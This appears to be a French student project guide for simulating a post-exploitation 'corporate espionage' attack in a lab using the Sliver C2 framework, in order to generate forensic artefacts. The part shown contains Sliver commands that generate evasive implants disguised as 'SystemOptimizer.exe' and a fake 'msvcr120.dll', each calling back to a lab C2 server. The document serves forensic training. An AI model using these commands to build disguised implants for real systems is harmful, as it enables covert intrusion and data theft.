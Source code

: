 # PROJET M1 - Scénarios d'Attaque Post-Exploitation
## Guide Détaillé de Simulation avec Silver C2

### 🎯 Objectif de la Simulation
Créer une attaque post-exploitation réaliste qui génère des artefacts exploitables pour l'investigation forensique, en utilisant Silver C2 pour démontrer :
- Les techniques de persistance
- Le mouvement latéral
- L'exfiltration de données
- Les traces laissées en mémoire et sur disque

---

## 📋 Vue d'Ensemble des Scénarios

### Scénario Principal : "Corporate Espionage"
**Contexte** : Un attaquant a obtenu un accès initial sur un poste de travail Windows 10 d'un employé et souhaite :
1. Établir une persistance
2. Collecter des informations sensibles
3. Exfiltrer des données
4. Maintenir l'accès pour des opérations futures

### Timeline de l'Attaque
```
T+00:00 - Génération et livraison du payload initial
T+00:05 - Établissement de la connexion C2
T+00:10 - Reconnaissance système
T+00:20 - Élévation de privilèges
T+00:30 - Installation de persistance
T+00:45 - Collecte d'informations
T+01:00 - Exfiltration de données
T+01:15 - Nettoyage partiel et maintien d'accès
```

---

## 🚀 Phase 1 : Accès Initial et Reconnaissance

### Étape 1.1 : Génération du Payload Initial
```bash
# Sur VM1 (Kali)
sliver-client

# Générer un payload déguisé en outil légitime
sliver > generate --http 192.168.56.10:8080 \
    --os windows --arch amd64 --format exe \
    --skip-symbols --evasion \
    --save ~/project-m1/payloads/SystemOptimizer.exe

# Créer un payload de secours (DLL)
sliver > generate --http 192.168.56.10:8080 \
    --os windows --arch amd64 --format shared \
    --skip-symbols --evasion \
    --save ~/project-m1/payloads/msvcr120.dll
```
